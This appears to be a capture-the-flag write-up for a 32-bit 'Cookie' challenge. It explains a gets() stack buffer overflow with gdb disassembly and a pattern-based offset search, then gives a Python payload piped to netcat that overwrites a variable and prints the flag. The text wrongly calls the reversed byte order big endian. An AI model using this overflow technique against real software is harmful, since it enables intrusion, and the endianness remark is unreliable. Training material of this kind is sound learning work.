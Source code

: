# Pwn 100 - Cookie

We are given a nc server, ```nc 40.76.33.15 54321``` and a 32 bit binary. Here is the decompiled pseudocode:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Bh] [ebp-4Dh]
  int v5; // [esp+4Ch] [ebp-Ch]

  setbuf(_bss_start, 0);
  v5 = 0;
  gets(&s);
  if ( v5 == 0x1337 )
    print_flag();
  return 0;
}
```

We have a buffer overflow since the program uses gets(), and we have to overflow and change the value of the variable v5 to 0x1337 in order to get the flag.

I will describe a more systematic method to solving this, and not the lazy way I used to solved this.

Systematic method:
We use gdb. Load the file with ```gdb cookie``` and disassemble main with ```disas main```. The disas is shown below:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804852b <+0>:     lea    0x4(%esp),%ecx
   0x0804852f <+4>:     and    $0xfffffff0,%esp
   0x08048532 <+7>:     pushl  -0x4(%ecx)
   0x08048535 <+10>:    push   %ebp
   0x08048536 <+11>:    mov    %esp,%ebp
   0x08048538 <+13>:    push   %ecx
   0x08048539 <+14>:    sub    $0x54,%esp
   0x0804853c <+17>:    mov    0x804a02c,%eax
   0x08048541 <+22>:    sub    $0x8,%esp
   0x08048544 <+25>:    push   $0x0
   0x08048546 <+27>:    push   %eax
   0x08048547 <+28>:    call   0x80483c0 <setbuf@plt>
   0x0804854c <+33>:    add    $0x10,%esp
   0x0804854f <+36>:    movl   $0x0,-0xc(%ebp)
   0x08048556 <+43>:    sub    $0xc,%esp
   0x08048559 <+46>:    lea    -0x4d(%ebp),%eax
   0x0804855c <+49>:    push   %eax
   0x0804855d <+50>:    call   0x80483e0 <gets@plt>
   0x08048562 <+55>:    add    $0x10,%esp
   0x08048565 <+58>:    cmpl   $0x1337,-0xc(%ebp)
   0x0804856c <+65>:    jne    0x8048573 <main+72>
   0x0804856e <+67>:    call   0x8048580 <print_flag>
   0x08048573 <+72>:    mov    $0x0,%eax
   0x08048578 <+77>:    mov    -0x4(%ebp),%ecx
   0x0804857b <+80>:    leave
   0x0804857c <+81>:    lea    -0x4(%ecx),%esp
   0x0804857f <+84>:    ret
End of assembler dump.
```

Our target is the line of code which compares some value to 0x1337, which is right here: ```0x08048565 <+58>:    cmpl   $0x1337,-0xc(%ebp)```. See that cmp instruction and 0x1337?

Now we can set a breakpoint here with: ```break *0x08048565``` and run the program with ```run```. Lets enter a recognizable pattern so that we will be able to tell which characters in our pattern will be the value we are trying to overwrite:

```
(gdb) break *0x08048565
Breakpoint 1 at 0x8048565
(gdb) run
Starting program: /root/cookie
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Breakpoint 1, 0x08048565 in main ()
```

Now, we hit the breakpoint we set earlier. Here is the instruction again ```cmpl   $0x1337,-0xc(%ebp)```. We see that it is comparing 0x1337 to the value at ebp-0xc. We can examine this value with ```x/wx $ebp-0xc```:

```
(gdb) x/wx $ebp-0xc
0xffffd64c:     0x52515151
(gdb)
```

The value of the variable is 0x52515151. The ascii representation of 0x51 is Q, and 0x52 is R. Now we know that in our pattern, 3 Q's and 1 R corresponds to the variable we are overwriting. We want this value to be 0x1337, so we can write this value in using python with the following:

```python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQ\x37\x13\x00\x00RRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'"```

See how the characters that would've been QQQR I replaced with some weird values? These weird values is because 0x1337 in big endian is \x37\x13\x00\x00. Not, \x00\x00\x13\x37. It's reversed.

Now lets just pipe this input into the netcat server and receive our flag:

```
alex@WINDOWS-0A3VRFK:/mnt/c/Users/alex/Desktop/CTF$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQ\x37\x13\x00\x00RRRSSSS'" | nc 40.76.33.15 54321
b0ctf{mr_d4n13ls_w0u1d_b3_v3ry_pr0ud}
alex@WINDOWS-0A3VRFK:/mnt/c/Users/alex/Desktop/CTF$
```

## Flag
### b0ctf{mr_d4n13ls_w0u1d_b3_v3ry_pr0ud}
